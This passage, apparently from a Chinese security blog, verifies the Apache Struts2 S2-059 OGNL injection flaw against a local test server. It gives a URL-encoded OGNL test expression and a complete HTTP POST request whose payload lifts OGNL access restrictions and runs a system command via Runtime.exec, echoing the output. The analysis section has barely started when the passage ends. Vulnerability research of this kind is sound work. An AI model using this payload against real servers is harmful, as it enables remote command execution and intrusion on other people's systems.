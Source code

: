 

## 漏洞验证

poc1：

输入普通文本：

[![](https://p5.ssl.qhimg.com/t0115b27953651fc8bf.png)](https://p5.ssl.qhimg.com/t0115b27953651fc8bf.png)

输入`ONGL`表达式`%`{`1+4`}``，需要url转码`%25%7b%31%2b%34%7d%0a`

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01c57793b910a0d842.png)

poc2：

这里发送一个post包即可，构造思路在分析和总结中提到。

```
POST /s2_059/index.action HTTP/1.1
Host: localhost:8085
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 606
Origin: http://localhost:8085
Connection: close
Referer: http://localhost:8085/s2_059_war/
Cookie: JSESSIONID=272825C954147516F847095B055202B5; JSESSIONID=01F82222F5CCED3DC9B7819AE6C98DA0
Upgrade-Insecure-Requests: 1

payload=%25%7b%23_memberAccess.allowPrivateAccess%3Dtrue%2C%23_memberAccess.allowStaticMethodAccess%3Dtrue%2C%23_memberAccess.excludedClasses%3D%23_memberAccess.acceptProperties%2C%23_memberAccess.excludedPackageNamePatterns%3D%23_memberAccess.acceptProperties%2C%23res%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23a%3D%40java.lang.Runtime%40getRuntime()%2C%23s%3Dnew%20java.util.Scanner(%23a.exec('ls%20-al').getInputStream()).useDelimiter('%5C%5C%5C%5CA')%2C%23str%3D%23s.hasNext()%3F%23s.next()%3A''%2C%23res.print(%23str)%2C%23res.close()%0A%7d

```

[![](https://p4.ssl.qhimg.com/t01cbefa0e9986b0407.png)](https://p4.ssl.qhimg.com/t01cbefa0e9986b0407.png)



## 漏洞分析

我们首先看一下漏洞的调用栈：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0108fc336e4836eac8.png)
